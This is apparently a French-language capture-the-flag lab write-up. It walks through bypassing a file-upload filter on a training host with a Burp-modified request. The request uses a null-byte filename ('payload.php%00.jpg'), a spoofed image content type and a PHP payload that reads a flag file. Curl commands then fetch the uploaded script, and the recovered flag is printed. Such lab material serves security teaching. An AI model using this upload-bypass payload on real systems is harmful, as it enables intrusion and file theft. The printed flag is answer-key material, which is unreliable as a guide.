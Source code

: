 **Requête modifiée finale** (avec null byte) :

```http
POST /api/task2/ HTTP/1.1
Host: test-s3.web0x05.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://test-s3.web0x05.hbtn/task2
Content-Type: multipart/form-data; boundary=---------------------------xxxxx
Content-Length: xxx
Origin: http://test-s3.web0x05.hbtn
Connection: keep-alive

-----------------------------xxxxx
Content-Disposition: form-data; name="file"; filename="payload.php%00.jpg"
Content-Type: image/jpeg

<?php readfile('FLAG_2.txt') ?>
-----------------------------xxxxx--
```

#### Étape 6 : Envoi de la requête modifiée

1. Clique sur **Forward** dans Burp Suite
2. Désactive l'interception : **"Intercept is off"**

#### Étape 7 : Vérification de l'upload

Après l'upload, vérifie sur la page `/task2` :
- Le fichier devrait apparaître comme uploadé
- Note le nom du fichier sauvegardé (probablement `payload.php`)

#### Étape 8 : Accéder au fichier et récupérer le flag

**Méthode 1 : Via curl**
```bash
curl http://test-s3.web0x05.hbtn/static/upload/payload.php
```

**Méthode 2 : Via navigateur**
```
http://test-s3.web0x05.hbtn/static/upload/payload.php
```

**Si le chemin exact n'est pas connu, essayer** :
```bash
curl http://test-s3.web0x05.hbtn/uploads/payload.php
curl http://test-s3.web0x05.hbtn/upload/payload.php
```

### Résultat

**FLAG récupéré** : `7e65f8b52e7958b351f66fe9ad4ae26d`
